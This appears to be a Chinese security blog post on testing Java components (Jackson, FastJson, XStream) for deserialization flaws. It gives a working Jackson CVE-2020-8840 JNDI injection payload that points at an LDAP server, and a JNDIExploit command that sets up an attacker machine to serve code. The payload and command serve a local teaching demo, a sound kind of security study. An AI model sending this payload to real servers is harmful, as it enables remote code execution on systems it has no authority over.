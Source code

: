 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk3NTIyOTA0OQ==&mid=2247485246&idx=1&sn=ab3c5eb8fd8c119eada00719b8986fa0

#  Java组件安全&数据处理&FastJson各个版本&JackSon&XStream&自动BP插件&CVE漏洞  
原创 朝阳  Sec朝阳   2025-07-16 10:42  
  
# 黑盒、白盒测试  
  
黑盒检测：Java应用 请求参数数据以json/xml格式发送测试  
  
黑盒判断：通过提交数据报错信息得到什么组件  
  
xml格式(xstream) 或 json 格式（fastjson jackson）  
  
白盒：直接看引用组件版本  
# 1、J2EE-组件Jackson（JSON）  
  
当下流行的json解释器，主要负责处理Json的序列化和反序列化。  
  
历史漏洞：https://avd.aliyun.com/search?q=Jackson  
### 代码执行 (CVE-2020-8840)  
  
2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2  
  
String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\",   
  
{\"asText\":\"ldap://localhost:1389/Exploit\"}]";  

```
&#34;[\&#34;org.apache.xbean.propertyeditor.JndiConverter\&#34;, 
{\&#34;asText\&#34;:\&#34;ldap://localhost:1389/Exploit\&#34;}]&#34;;
```

### 本地演示  
  
漏洞核心readValue，受到json版本和jdk版本，因为是jndi注入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tupWps2J7bbWtXGJlDO2QickUhvZ0B7ibBlfibUiconWqvDnhfIMsfHWias2w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuib61mQ3qP7GS93POpPFBJpcTHBR25c0TmOOjsiarOULVEtibJa84tss0g/640?wx_fmt=png&from=appmsg "")  
  
启动一个计算器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuEw8GCm551rAaaLZ2oAJFH4T5r5lcHoHDAPtrKECO13Z6ZAPxVPalZA/640?wx_fmt=png&from=appmsg "")  
  
在这里替换一下jndi值  
  
这里使用jndi的另一个工具  
  
java -jar jndiexploit-1.4-SNAPSHOT.jar -i 192.168.66.152 -l 1389 -p 8080  
  
这条命令使用jndi工具，-i指攻击机  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuWeyYyw0VH2x79sqhd5Rm0Hqo1OIQA4JPthTBx0iatQD0lZKCZwHbHiag/640?wx_fmt=png&from=appmsg "")  
  